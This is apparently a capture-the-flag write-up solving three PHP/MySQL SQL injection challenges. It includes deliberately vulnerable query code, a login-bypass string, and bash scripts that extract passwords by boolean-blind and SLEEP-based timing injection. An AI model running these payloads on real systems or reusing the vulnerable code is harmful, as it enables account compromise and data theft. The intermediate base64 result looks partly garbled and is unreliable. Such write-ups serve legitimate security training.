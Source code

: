 

# SQL Basics 

## The challenge

I'm setting up my login page using PHP & MySQL ... How bad can it be? How secure is it? How to login when you don't have the password?

http://54.254.115.115:5000/
```php
<?php
/**
 * CREATE TABLE `users` (
 *  `username` varchar(64) DEFAULT NULL,
 *  `password` varchar(64) DEFAULT NULL
 * );
 * username: flag
 */

if (array_key_exists("username", $_REQUEST)) {
  $link = mysql_connect('mysql', 'simplesql', '<redacted>');
  mysql_select_db('simplesql', $link);
  $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
  
  if (array_key_exists("debug", $_REQUEST)) {
    echo "Executing query: $query<br>";
  }
  
  $res = mysql_query($query, $link);
  if (mysql_num_rows($res) > 0) {
    echo "Successful login! Password is '<redacted>'.<br>";
  } else {
    echo "Access denied!<br>";
  }
  mysql_close($link);
}
?>

    <form action="index.php" method="post">
      Username: <input type="text" name="username" id="username">
      password: <input type="password" name="password" id="password">
      <input type="submit" value="Login">
    </form>
  </div>
</body>
</html>
```


## Writeup

We can see there is a SQL injection vuln. 
We put 
 flag" or "1"="1 
in the username field and got the flag:
axactf{th4t_w45_s0m3_v2ry_b4s1c_stuff}





# SQL Intermediate

## The challenge

Second attempt at making a PHP page. Just a "user exist" confirmation page. It cannot leak anything right ... But, how can you retrieve the password (base64)?

http://54.254.115.115:5001/
```php
<?php
/**
 * CREATE TABLE `users1` (
 *  `username` varchar(64) DEFAULT NULL,
 *  `password` varchar(64) DEFAULT NULL
 * );
 * 
 * (Note: password is base64)
 * INSERT INTO `users` VALUES ('flag1', 'findme');
 */

if (array_key_exists("username", $_REQUEST)) {
  $link = mysql_connect('localhost', 'blind', '<redacted>');
  mysql_select_db('blind', $link);
  $query = "SELECT * from users1 where username=\"".$_REQUEST["username"]."\"";
  if (array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
  }

  $res = mysql_query($query, $link);
  if ($res) {
    if (mysql_num_rows($res) > 0) {
      echo "this user exists.<br>";
    } else {
      echo "this user doesn't exist.<br>";
    }
  } else {
    echo "error in query.<br>";
  }
  mysql_close($link);
} else {
?>
    <form action="index.php" method="post">
      Username: <input type="text" name="username" id="username">
      <input type="submit" value="Check existence">
    </form>
<?php } ?>
```


## Writeup

It's again an injection but the only thing we have in return is "this user exists" or "this user doesn't exist".
So if we test 
username=flag1" and password like "a% 
we can know it the password start with a or not.

Writing a small script in bash to do it (it's not clean code :) ): 

```bash
#!/bin/bash    
password=""
passwordreel=""
echo $cmd
arrayName=('+' '/' 'a' 'b' 'c' 'd' 'e' '=' 'f' 'g' 'h' 'i' 'j' 'k' 'l' 'm' 'n' 'o' 'p' 'q' 'r' 's' 't' 'u' 'v' 'w' 'x' 'y' 'z' 'A' 'B' 'C' 'D' 'E' 'F' 'G' 'H' 'I' 'J' 'K' 'L' 'M' 'N' 'O' 'P' 'Q' 'R' 'S' 'T' 'U' 'V' 'W' 'X' 'Y' 'Z' '0' '1' '2' '3' '4' '5' '6' '7' '8' '9')
while true; do
a=0
for i in "${arrayName[@]}"; do
password="$passwordreel$i"
echo $password
cmd=$(curl 'http://54.254.115.115:5001/'  -H 'Connection: keep-alive'   -H 'Cache-Control: max-age=0'   -H 'Upgrade-Insecure-Requests: 1'   -H 'Origin: http://54.254.115.115:5001'   -H 'Content-Type: application/x-www-form-urlencoded'   -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36'   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'   -H 'Referer: http://54.254.115.115:5001/'   -H 'Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7'   --data 'username=flag1" and password+like+"'"$password"'%'   --compressed   --insecure)

if [[ $cmd == *"doesn"* ]]; then
  a=$a+1;
  
else
  passwordreel=$password
  echo $password
  break
fi
done
echo $password

done

```

we got  : YXhhY3Rme2cxdjNfbTNfYjRja19teV8zeTM1XzFFBV9iBDFUZH0=
base64 decoded : #axactf{g1v3_m3_b4ck_my_3y35_1_m_bl1nd}


# SQL Hardcore

## The challenge
Alright, so this time, my PHP app is super protected and cannot leak any information ... because i commented it out!

http://54.254.115.115:5002/

```php
<?php
/**
 * CREATE TABLE `users2` (
 *  `username` varchar(64) DEFAULT NULL,
 *  `password` varchar(64) DEFAULT NULL
 * );
 * 
 * (Note: password is base64)
 * INSERT INTO `users2` VALUES ('flag2', 'findme');
 */

if (array_key_exists("username", $_REQUEST)) {
  $link = mysql_connect('localhost', 'timing', '<redacted>');
  mysql_select_db('timing', $link);
  $query = "SELECT * from users2 where username=\"".$_REQUEST["username"]."\"";
  if (array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
  }

  $res = mysql_query($query, $link);
  if ($res) {
    if (mysql_num_rows($res) > 0) {
      // echo "this user exists.<br>";
    } else {
      // echo "this user doesn't exist.<br>";
    }
  } else {
    // echo "error in query.<br>";
  }
  mysql_close($link);
} else {
?>
    <form action="index.php" method="post">
      Username: <input type="text" name="username" id="username">
      <input type="submit" value="Check existence">
    </form>
<?php } ?>

```


## Writeup


It's again an injection but with no return.
So we need to use a timing attack. It will test evey character like before but if the character is good, we will design our request to be longer to execute. By measuring the time, we'll know if the character is good or not. The crafted request : 

username=flag2" and IF(BINARY password like "'"$password"'%",SLEEP(10),0) #


Writing a small script in bash to do it (it's not clean code :) ): 

```bash
#!/bin/bash    
password=""
passwordreel=""
#cmd=$(curl 'http://54.254.115.115:5002/'  -H 'Connection: keep-alive'   -H 'Cache-Control: max-age=0'   -H 'Upgrade-Insecure-Requests: 1'   -H 'Origin: http://54.254.115.115:5002'   -H 'Content-Type: application/x-www-form-urlencoded'   -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36'   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'   -H 'Referer: http://54.254.115.115:5002/'   -H 'Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7'   --data 'username=flag2" and IF(password like "'"$password"'%",SLEEP(10),0) #'   --compressed   --insecure)


arrayName=('+' '/' 'a' 'b' 'c' 'd' 'e' '=' 'f' 'g' 'h' 'i' 'j' 'k' 'l' 'm' 'n' 'o' 'p' 'q' 'r' 's' 't' 'u' 'v' 'w' 'x' 'y' 'z' 'A' 'B' 'C' 'D' 'E' 'F' 'G' 'H' 'I' 'J' 'K' 'L' 'M' 'N' 'O' 'P' 'Q' 'R' 'S' 'T' 'U' 'V' 'W' 'X' 'Y' 'Z' '0' '1' '2' '3' '4' '5' '6' '7' '8' '9')
while true; do
a=0
for i in "${arrayName[@]}"; do
password="$passwordreel$i"
echo $password
SECONDS=0
heure1=$SECONDS
cmd=$(curl 'http://54.254.115.115:5002/'  -H 'Connection: keep-alive'   -H 'Cache-Control: max-age=0'   -H 'Upgrade-Insecure-Requests: 1'   -H 'Origin: http://54.254.115.115:5002'   -H 'Content-Type: application/x-www-form-urlencoded'   -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36'   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'   -H 'Referer: http://54.254.115.115:5002/'   -H 'Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7'   --data 'username=flag2" and IF(BINARY password like "'"$password"'%",SLEEP(10),0) #'   --compressed   --insecure)
heure2=$SECONDS
let diffH=$heure2-$heure1

echo "heure1:"$heure1
echo "heure2:"$heure2
echo "diffH:"$diffH

if [ $diffH -lt 5 ]; then
  a=$a+1;
  echo "nof Found !"
else
  passwordreel=$password
  echo "Found new char : "$password
  break
fi
done
echo $password

done

```

we got  : YXhhY3Rme3QxbTFuZ180dHQ0Y2tfNHIzX2Z1bl9hc19oM2xsfQ==
base64 decoded : #axactf{t1m1ng_4tt4ck_4r3_fun_as_h3ll}


